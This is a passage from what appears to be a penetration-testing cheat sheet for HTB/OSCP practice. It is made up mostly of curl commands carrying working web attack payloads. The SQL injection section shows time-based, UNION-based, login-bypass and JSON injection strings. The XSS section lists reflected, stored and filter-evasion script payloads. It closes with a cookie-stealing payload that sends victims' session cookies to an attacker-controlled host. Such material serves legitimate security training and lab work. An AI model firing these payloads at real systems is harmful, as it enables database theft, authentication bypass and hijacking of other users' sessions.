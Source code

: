 ```bash
curl "http://target.com/page.php?id=1 AND pg_sleep(5)--"           # PostgreSQL

# Union-based injection testing
curl "http://target.com/page.php?id=1 UNION SELECT NULL,NULL,NULL--"
# Determine number of columns
# Match column count for successful union

curl "http://target.com/page.php?id=1 UNION SELECT 1,database(),version()--"
# Extract database information
# Common information gathering queries

# POST-based manual injection
curl -X POST -d "username=admin' OR 1=1--&password=test" http://target.com/login.php
# Login bypass attempt
# Common authentication bypass technique

# JSON injection testing
curl -X POST -H "Content-Type: application/json" -d '{"id":"1\" OR \"1\"=\"1"}' http://target.com/api/user
# JSON-based SQL injection
# Modern applications often use JSON APIs
```

## Cross-Site Scripting (XSS) Testing

### **XSS Detection and Exploitation**

**What XSS vulnerabilities are:** Input validation flaws that allow injection of malicious JavaScript into web pages viewed by other users.

**Why XSS is critical:** Leads to session hijacking, credential theft, defacement, and can be chained with other vulnerabilities for full compromise.

**HTB/OSCP XSS scenarios:** Often used for initial foothold, stealing admin cookies, or bypassing authentication mechanisms.

```bash
# Basic XSS testing payloads
curl "http://target.com/search.php?q=<script>alert('XSS')</script>"
# Basic reflected XSS test
# Look for script execution in response

curl "http://target.com/search.php?q=<img src=x onerror=alert('XSS')>"
# Alternative XSS payload using img tag
# Bypasses basic script tag filtering

# Advanced XSS payloads for filter evasion
curl "http://target.com/search.php?q=<svg onload=alert('XSS')>"
# SVG-based XSS payload
# Often bypasses blacklist filters

curl "http://target.com/search.php?q=javascript:alert('XSS')"
# JavaScript protocol handler
# Works in href attributes and form actions

# POST-based XSS testing
curl -X POST -d "comment=<script>alert('XSS')</script>" http://target.com/comment.php
# Stored XSS in form submissions
# Persists and affects multiple users

# Cookie stealing XSS payload
curl "http://target.com/search.php?q=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>"
# Steals session cookies
```